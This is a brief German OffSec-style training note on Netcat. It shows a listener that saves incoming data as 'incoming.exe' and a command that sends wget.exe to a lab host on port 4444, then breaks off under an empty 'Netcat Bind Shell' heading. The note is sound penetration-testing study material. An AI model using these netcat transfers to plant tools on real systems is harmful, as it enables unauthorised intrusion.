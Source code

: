 # OffSec -  Netcat

## Datenübertragung
Mit #Netcat kann man auch Daten #übertragen. 
Hierzu ist wie folgt vorzugehen.

Auf dem Client wird eim TCP-Listening Port geöffnet und der Output in eine "incoming.exe" geschrieben

`nc -nlvp 4444 > incoming.exe`

Auf dem Host wird nun der folgende Befehl eingesetzt:

`nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe`

## Netcat Bind Shell

